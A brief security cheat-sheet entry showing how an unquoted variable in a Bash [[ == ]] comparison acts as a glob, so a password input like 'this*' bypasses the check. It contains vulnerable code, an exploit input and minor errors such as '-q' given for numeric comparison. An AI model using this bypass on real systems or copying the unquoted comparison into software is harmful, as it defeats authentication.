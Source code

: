 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-q :** for numeric comparisons.
[//]: # (End of bullets)

**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!

**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="this*" => asterisk character it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```